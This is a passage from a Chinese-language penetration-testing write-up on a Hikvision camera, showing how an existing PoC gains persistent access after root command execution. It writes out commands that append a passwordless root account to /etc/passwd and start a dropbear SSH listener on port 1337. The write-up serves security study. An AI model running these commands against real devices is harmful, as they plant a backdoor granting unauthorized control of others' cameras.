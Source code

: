 ```plain
/home/davinci.lzma    // 压缩后的程序，lzma -d davinci.lzma 可以解压
/dav/davinci_bak
```

可以考虑对程序进行逆向分析，直接执行均未发现可利用的点

### 4\. SSH

上面首先是尝试了反向控制相关的远程下载、反弹 shell，也尝试了正向控制中的 Webshell，都没有成功，由于是测试环境，我是知道它是出网的，所以没有测试出网情况。

没有 `nc`、`telnet` 之类的工具，就只能使用现有的服务来监听端口了，`ssh` 服务是一个不错的选择，这也是 `PoC` 中利用的方式

海康威视的这个摄像头的 `ssh` 是通过 `dropbear` 起的，而不是 `OpenSSH`

> https://matt.ucc.asn.au/dropbear/dropbear.html

这导致之前启动 `OpenSSH` 的命令怎么都没效果

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

当前 ssh 似乎是没有开，但是从 `netstat` 的命令执行结果上看是开了

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

PoC 中使用 `dropbear -R -B -p 1337` 在 1337 端口设置监听，还新建了一个不需要密码的账户

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

这个摄像头的操作系统是通过 `/etc/passwd` 管理账户及密码的，我们既然是 `root` 权限，可以直接添加账户进去了

#### 1) 添加账户

```plain
echo "P::0:0:W:/:/bin/sh" >> /etc/passwd
```

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

这种涉及到重定向的操作就不要在 Railgun 中执行了，可能是因为要显示结果，所以默认就带了输出重定向，和我们的重定向互相冲突，用 Burpsuite 就好了

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

#### 2) 创建新的 SSH 监听

```plain
dropbear -R -B -p 1337
```
